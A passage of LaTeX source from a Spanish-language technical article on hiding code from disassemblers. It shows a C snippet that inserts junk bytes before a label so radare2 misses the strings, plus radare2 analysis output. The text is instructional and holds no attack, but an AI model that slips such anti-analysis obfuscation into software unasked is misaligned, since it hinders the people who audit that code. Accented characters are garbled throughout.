
\includegraphics[width=\linewidth]{images/articulos/jump-ex03-radare2.eps}
\captionof{figure}{Salida de radare2}
\end{minipage}
\begin{minipage}{0.48\linewidth}

\includegraphics[width=\linewidth]{images/articulos/jump-ex03-objdump.eps}
\captionof{figure}{Salida de objdump}
\end{minipage}






\begin{multicols}{2}

Claramente podemos ver las llamadas especiales en ambos casos y radare
incluso nos muestra las cadenas. En el resto del art�culo solo
mostraremos la salida de radare2 que es mucho m�s completa.

El objetivo ahora es confundir a radare2 para que no nos muestre
inmediatamente las funciones especiales que hemos escondido en
{\verb!foo!}.

\hypertarget{ocultando-el-cuxf3digo-i}{%
\sectiontext{white}{black}{OCULTANDO EL C�DIGO I}\label{ocultando-el-cuxf3digo-i}}

Lo primero que vamos a hacer es insertar algunos caracteres aleatorios
justo antes de nuestra primera etiqueta, con el objetivo de confundir al
desensamblador al encontrar c�digo que no se corresponden con
instrucciones. Esto lo podemos hacer de la siguiente forma:

\begin{entradilla}
{\em Incluyendo algunos valores aleatorios antes de una funci�n podemos confundir a los desensambladores}
\end{entradilla}

\begin{lstlisting}[language=C]
  if (a) {
    __asm__ (".asciz \"ROOR\"");
  label_foo1:
    puts ("Llamada especial 1");
    __asm__ ("ret");
\end{lstlisting}

Si ahora vemos la salida de radare2 obtendremos lo siguiente:


\includegraphics[width=\linewidth]{images/articulos/jump-ex04-radare2.eps}


Como podemos ver ahora radare no es capaz de encontrar la cadena de la
primera llamada especial. A�n podemos ver algo de c�digo de la funci�n,
pero ya no es tan evidente como antes. Podemos repetir el proceso antes
de la segunda etiqueta para intentar ocultar tambi�n la segunda cadena:



\includegraphics[width=\linewidth]{images/articulos/jump-ex05-radare2.eps}


Pero si usamos las capacidades de an�lisis de radare, ejecutando el
comando

\begin{lstlisting}
[0x00001050]> aaaaaa
INFO: Analyze all flags starting with sym. and entry0 (aa)
INFO: Analyze imports (af@@@i)
INFO: Analyze entrypoint (af@ entry0)
INFO: Analyze symbols (af@@@s)
INFO: Recovering variables
INFO: Analyze all functions arguments/locals (afva@@@F)
INFO: Analyze function calls (aac)
INFO: Analyze len bytes of instructions for references (aar)
INFO: Finding and parsing C++ vtables (avrr)
INFO: Analyzing methods
INFO: Recovering local variables (afva)
INFO: Type matching analysis for all functions (aaft)
INFO: Propagate noreturn information (aanr)
INFO: Scanning for strings constructed in code (/azs)
INFO: Finding function preludes (aap)
INFO: Enable anal.types.constraint for experimental
type propagation
INFO: Reanalizing graph references to adjust functions
count (aarr)
INFO: Autoname all functions (.afna@@c:afla)
\end{lstlisting}

\end{multicols}

\rput(8.2,2.8){\resizebox{!}{5.8cm}{{\epsfbox{images/promo/promo04.eps}}}}

\pagebreak
\begin{multicols}{2}

Ahora veremos lo siguiente:

